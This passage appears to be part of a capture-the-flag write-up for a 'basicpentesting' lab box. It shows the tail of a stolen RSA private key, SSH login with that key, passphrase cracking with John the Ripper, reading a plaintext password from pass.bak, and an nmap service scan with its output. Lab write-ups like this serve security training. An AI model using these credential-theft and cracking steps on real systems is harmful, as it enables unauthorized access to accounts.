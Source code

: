     3Jt1/ZW3XCb76R75sG5h6Q4N8gu5c/M0cdq16H9MHwpdin9OZTqO2zNxFvpuXthY
    -----END RSA PRIVATE KEY-----

    ch.grossmann@Christophs-Mini basicpentesting % nano kay_id_rsa
    ch.grossmann@Christophs-Mini basicpentesting % ssh -i kay_id_rsa kay@10.10.90.140
    Enter passphrase for key 'kay_id_rsa': 
    
    /opt/JohnTheRipper/run/john forjohn.txt --wordlist=/opt/rockyou.txt
    
    beeswax
    
    kay@basic2:~$ ls -la
    total 48
    drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
    drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
    -rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
    -rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
    -rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
    drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
    -rw------- 1 root kay   119 Apr 23  2018 .lesshst
    drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
    -rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
    -rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
    drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
    -rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
    -rw------- 1 root kay   538 Apr 23  2018 .viminfo
    kay@basic2:~$ cat pass.bak 
    heresareallystrongpasswordthatfollowsthepasswordpolicy$$



## Notes

Nmap:

nmap -sC -sV -oN nmap/basicpentesting 10.10.90.140

Nmap 7.60 scan initiated Thu Nov  5 08:32:52 2020 as: nmap -sC -sV -oN nmap/basicpentesting 10.10.90.140
Nmap scan report for ip-10-10-90-140.eu-west-1.compute.internal (10.10.90.140)
Host is up (0.00085s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (EdDSA)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests